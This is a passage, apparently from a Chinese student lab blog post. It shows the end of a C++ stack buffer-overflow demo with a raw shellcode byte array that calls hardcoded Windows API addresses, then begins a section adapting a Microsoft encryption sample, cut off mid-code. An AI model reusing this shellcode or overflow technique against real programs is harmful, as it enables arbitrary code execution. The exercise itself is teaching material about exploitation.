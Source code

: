 ```cpp
0x55, 0x8b, 0xec, 0x55, 0x51, 0x8b, 0xec, 0x83, 0xec, 0x54, 0x33, 0xc9, 0xc6, 0x45, 0xec, 0x5e, 0xc6, 0x45, 0xed, 0x6f, 0xc6, 0x45, 0xee, 0x5e, 0xc6, 0x45, 0xef
, 0x2e, 0xc6, 0x45, 0xf0, 0x2e, 0xc6, 0x45, 0xf1, 0xb6, 0xc6, 0x45, 0xf2, 0xd1,
0xc6, 0x45, 0xf3, 0xd5, 0xc6, 0x45, 0xf4, 0xbb, 0xc6, 0x45, 0xf5, 0xb3, 0xc6, 0x45, 0xf6, 0xc9, 0xc6, 0x45, 0xf7, 0xb9, 0xc6, 0x45, 0xf8, 0xa6, 0xc6, 0x45, 0xf9
, 0xd2, 0xc6, 0x45, 0xfa, 0xe7, 0xc6, 0x45, 0xfb, 0xb3, 0xc6, 0x45, 0xfc, 0xf6,
0xc6, 0x45, 0xfd, 0x21, 0x88, 0x4d, 0xfe, 0x51, 0x8d, 0x45, 0xf1, 0x50, 0x8d, 0x45, 0xec, 0x50, 0x51, 0xc7, 0x45, 0xe0, 0xde, 0xd8, 0xe4, 0x77, 0xff, 0x55, 0xe0
, 0xc7, 0x45, 0xd0, 0x39, 0x30, 0x81, 0x7c, 0xff, 0x55, 0xd0, 0x8b, 0xe5, 0x59,
0x5d, 0x33, 0xc0, 0x5d, 0xc3, 0x90, 0x90, 0x90

	};

	if( Load_user32_library() == -1 )
		return 0;

	overflow((char*)shellcode, (unsigned int)strlen(shellcode));

	getchar();
	return 0;
}
```

![image-20220623143841445](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623223128612-32288025.png)



### 2密码学

代码仓库：https://github.com/microsoft/Windows-classic-samples/tree/main/Samples/Security/CipherEncryptionDecryption

源代码：https://github.com/microsoft/Windows-classic-samples/blob/main/Samples/Security/CipherEncryptionDecryption/cpp/CipherEncryptionDecryption.cpp

#### 直接添加

通过在加密库的代码中添加我们想要的部分，成功实现了加密与解密

```cpp
//-----------------------------------------------------------------------------
//
//    wmain
//
//-----------------------------------------------------------------------------
DWORD
__cdecl
wmain(
    _In_                int     argc,
    _In_reads_(argc)   LPWSTR  argv[]
    )
{
 ......

    //
    // Encrypt plain text
    //
    char buf[1000];

    FILE* f = fopen("plain.txt", "r+");

    for (int i = 0; fgets(buf, 1000, f); i++)
    {
        PlainTextLength = strlen(buf);
        buf[PlainTextLength] = '\0';
```
